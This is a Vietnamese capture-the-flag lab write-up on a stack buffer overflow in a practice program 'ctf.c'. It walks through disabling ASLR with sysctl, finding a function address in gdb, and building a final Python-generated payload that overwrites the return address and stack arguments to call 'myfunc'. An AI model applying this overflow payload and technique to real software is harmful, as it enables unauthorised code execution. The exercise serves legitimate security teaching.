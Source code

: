 # 2. Conduct attack on ctf.c

![alt text](../images/image-24.png)

Hàm vuln() sử dụng strcpy(buf,s) để sao chép đầu vào s vào mảng buf[100]. Tuy nhiên, hàm strcpy không kiểm tra đầu vào, nên nếu chuỗi s nhập hơn 100 ký tự, nó sẽ ghi đè lên các byte lân cận, gây ra buffer overflow

![alt text](../images/image-25.png)

mục tiêu là đè địa chỉ trả về của hàm vuln thành địa chỉ của hàm myfunc thì mới có thể chạy được hàm myfunc

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên:

`sudo sysctl -w kernel.randomize_va_space=0`

![alt text](../images/image-26.png)

biên dịch chương trình ctf.c

![alt text](images/image-27.png)

chạy gdb để xem địa chỉ của hàm myfunc:

![alt text](../images/image-28.png)

=> Địa chỉ: 0x0804851b

=> chúng ta cần chèn 104 bytes + '\x1b\x85\x04\x08'

Stack sau khi đè lên giá trị trở về của hàm vuln():

![alt text](../images/image-30.png)

Giờ để lấy được flag ta cần phải vượt qua các chướng ngại vật sau:

- flag1.txt chưa có => phải tạo ra 1 file flag1.txt bằng lệnh `touch flag1.txt`
  
  ![image](https://github.com/user-attachments/assets/59dfac7f-00b2-420a-8c50-831f97decfdb)

- 2 tham số p,q của hàm myfunc chưa có trong stack, vì thế ta đè tiếp biến ebp và giá trị trả về của hàm main thành các flag của p,q

![image](https://github.com/user-attachments/assets/cb0204df-7af7-43d1-b5a6-f666c5e45e98)

=> Câu lệnh cuối cùng:

`./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`

- `'a' * 104`: chèn giá trị cho biến buf và biến ebp 
- `'\x1b\x85\x04\x08'` gán địa chỉ của hàm myfunc() đến địa chỉ trả về của hàm vuln()
- `'a'*4` gán giá trị cho biến s của hàm vuln
- `'\x11\x12\x08\x04'` gán địa chỉ p đến ebp của hàm main()
- `'\x62\x42\x64\x44'` gán địa chỉ q đến giá trị trở về của hàm main()

=> kết quả: 
  
![alt text](images/image-31.png)



